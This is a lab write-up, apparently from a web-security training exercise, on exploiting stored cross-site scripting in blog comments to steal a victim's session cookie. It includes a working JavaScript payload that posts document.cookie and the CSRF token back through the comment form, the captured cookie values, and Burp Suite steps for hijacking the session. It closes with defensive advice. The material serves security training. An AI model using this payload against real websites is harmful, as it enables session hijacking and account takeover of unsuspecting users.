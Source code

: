 #  Lab: Exploiting Cross-Site Scripting to Steal Cookies

## Overview

This lab involves a stored XSS vulnerability within the blog comments section. When a victim user views the comments, their session cookie can be exfiltrated. The objective is to leverage this vulnerability to steal the victim's session cookie and use it to impersonate them.

---

## Exploitation Process

### 1. Identifying the XSS Vulnerability

The blog comments functionality was found to be vulnerable to stored XSS. Any injected script gets executed when a victim visits the comments section, making it an ideal target for session hijacking.

### 2. Exploiting CSRF Token to Extract Session Cookies

A crafted JavaScript payload was injected into the comment field to retrieve the CSRF token and session cookies. The script then sends the extracted cookies to an attacker-controlled location via a POST request.

#### **Payload:**

```javascript
window.addEventListener('DOMContentLoaded', function() {
    var token = document.getElementsByName('csrf')[0].value;
    var data = new FormData();

    data.append('csrf', token);
    data.append('postId', 5);
    data.append('comment', document.cookie);
    data.append('name', 'victim');
    data.append('email', 'dmind1077@gmail.com');
    data.append('website', 'https://google.com');

    fetch('/post/comment', {
        method: 'POST',
        mode: 'no-cors',
        body: data
    });
});
```

Once executed, this script extracts the user's session cookie and submits it to the attacker's controlled request.

### 3. Extracted Session Cookie

Upon execution of the script, the following session cookie was obtained:

```
secret=19fwNupHBBVBZrkozoRbOLZgYmf2A709;
session=otzMpyhwD8VvexWnGw73WriSUk4NQMHI
```

### 4. Using Burp Suite to Hijack the Session

- The captured session cookie was used to impersonate the victim.
- In **Burp Suite**, we navigated to **Target > /my-account**.
- The request was sent to **Repeater**, and the stolen cookie was manually injected into the session.
- The request was successfully authenticated as the victim, confirming session hijacking.

---

## Conclusion

By leveraging stored XSS and CSRF token exploitation, we successfully hijacked the victim's session. This demonstrates the impact of unprotected input fields and poor session handling. Proper input validation, output encoding, and secure cookie handling (e.g., HttpOnly and SameSite attributes) are necessary to prevent such attacks.